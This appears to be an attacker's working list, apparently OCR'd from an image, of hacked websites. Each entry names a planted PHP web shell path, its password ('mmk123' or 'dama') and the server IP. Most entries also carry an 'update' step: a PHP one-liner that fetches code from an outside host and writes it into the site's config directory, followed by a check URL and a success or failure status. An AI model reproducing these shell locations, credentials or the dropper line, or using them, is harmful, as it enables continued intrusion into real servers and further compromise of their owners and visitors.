 https://www.xscea.org.cn/static/upload/file/20220730/m22.php |mmk123 |  116.62.68.196
代码更新：0608   失败 403
https://www.xscea.org.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.xscea.org.cn/config/httpd.php?d=up

http://www.jsqrjsyxgs.com/static/upload/image/20220506/m22.php |mmk123 |  1.94.48.90
代码更新：0608 ✅
http://www.jsqrjsyxgs.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.jsqrjsyxgs.com/config/httpd.php?d=up

http://en.shanjiu.cn/static/upload/image/20230721/m22.php |mmk123 |  106.54.62.234
代码更新：0608 ✅
http://en.shanjiu.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://en.shanjiu.cn/config/httpd.php?d=up

https://www.xrkzx.cn/static/upload/image/20220520/m22.php |mmk123 |  47.76.67.195
代码更新：0608 ✅
https://www.xrkzx.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.xrkzx.cn/config/httpd.php?d=up

https://www.uni-trend.com.cn/template/default/css/13.php |mmk123 |rsa | 47.107.53.147
https://chengxizixun.com/static/upload/image/20200509/m1.php |mmk123 |  114.55.246.31

https://10392.1000ma.net/static/upload/image/20221113/m1.php |mmk123 |  120.77.152.51
代码更新：0608  无法访问
https://10392.1000ma.net/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://10392.1000ma.net/config/httpd.php?d=up

https://www.szbszx.com/static/upload/image/20210318/m1.php |mmk123 |  47.112.240.242
http://www.zyfuxin.com/dd.php |dama |大马 | 101.36.223.186

http://www.xlongfa.com/static/upload/image/20240321/m1.php |mmk123 |  47.97.115.119
代码更新：0608 ✅
http://www.xlongfa.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.xlongfa.com/config/httpd.php?d=up

http://res.qiremanhua.com/static/upload/image/20211222/m1.php |mmk123 |  47.98.131.153
代码更新：0608  500
http://res.qiremanhua.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://res.qiremanhua.com/config/httpd.php?d=up
